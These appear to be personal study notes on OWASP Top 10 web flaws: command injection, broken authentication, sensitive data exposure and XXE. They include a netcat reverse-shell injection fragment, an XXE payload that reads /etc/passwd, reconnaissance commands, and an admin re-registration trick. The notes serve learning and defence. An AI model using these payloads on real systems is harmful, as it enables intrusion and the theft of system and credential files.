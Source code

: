 ## Severity 1 : Injection

Common example:
* SQL injection
* Command injection

Able to :
* Access, Modify, Delete information in database
* gain access to users’ systems

### OS command injection

 server-side code (e.g. PHP) make a **system call** in hosting machine
 
 worst thing : Spawn a reversahell 
 * e.g. `;nc -e /bin/bash`

*blind command injection* : Server does not return the response
*Active command injection* : Return the response to the user

code exmaple
![](https://i.imgur.com/yRdpaGJ.png)
1.  Checking `commandString` is set or not
2.  If it set, `$command_string` get the value of input field
3.  Execute the function `passthru($command_string)`
4.  If comes with error, output the error to page

How to detect Active command Injection:
* If someone write code like this, we can try some shell commands to detect
* Linux : `whoami` `id` `ifconfig/ip addr` `uname -a`
* Windows : `whoami` `ver` `ipconfig` `tasklist` `netstat -an`

## Severity 2 : Broken Authentication

common flaws :
* Brute force attacks
* Weak crednetial : strong password policy (easy password are not allowed)
* Weak Session Cookie : session value should not contain predictable values

Solve the flaws:
* Enforce a strong password policy
* Automatic lockout after a certain number of attempts
* Multi Factor Authentication : e.g. using code on their mobile device

### Re-registration of an existing user

register account in user : ` admin`
and it register new user but this user have same right as normal admin.

## Severity 3 : Sensitive Data Exposure

data directly linked to customers (names, financial infor...)

*flat-file* databses : databases stored as files
common one is `sqlite3`

### intro to sqlite3

access SQlite databae: `sqlite3 <database-name>`
check tables : `.table`
check table info : `PRAGMA table_info(<table>)`

exmaple SQL command : `SELECT * FROM <table>*`

### CrackStation
https://crackstation.net/

## Severity 4 XML External Entity 

XML Enternal Entity(XXE) attacks, abuses features of XML parsers/data.

XXE atacks type:
* in-band : recerive immediate response to the XXE payload
* out-of-band(OOB-XXE) :

### XML
eXtensible Markup Language : encoding, both humain-readable & machine-readable

charactericstic:
* platform-independaent & programming labguage independent
* validating using DTD & Schema, free from syntax error


XML starts with *XML prolog* (**no compulsory**, but good practice)
`<?xml version="1.0" encoding="UTF-8"?>`

XML document must contain ROOT element
```xml
<?xml version="1.0" encoding="UTF-8"?>
<mail>
   <to>falcon</to>
   <from>feast</from>
   <subject>About XXE</subject>
   <text>Teach about XXE</text>
</mail>
```

### DTD
Document Type Definition : defines structure & legal elements , attributes.

`note.dtd`
```
<!DOCTYPE note [ <!ELEMENT note (to,from,heading,body)> <!ELEMENT to (#PCDATA)> <!ELEMENT from (#PCDATA)> <!ELEMENT heading (#PCDATA)> <!ELEMENT body (#PCDATA)> ]>
```

* `!DOCTYPE note` : defines root element named `note`
* `!ELEMENT note` : defines note element must comtain : "to, from, heading, body"
* `!ELEMENT to` : defines `to` elemnts to be type `#PCDATA`
* `#PCDATA` means parseable character data

### XXE Payload

`!ENTITY` can be use to do injection

e.g. Display some extra infor
```xml
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```

e.g. read SYSTEM FILEs
```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```




we can validating some part of XML by DTD.

E.G.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
    <to>falcon</to>
    <from>feast</from>
    <heading>hacking</heading>
    <body>XXE attack</body>
</note>
```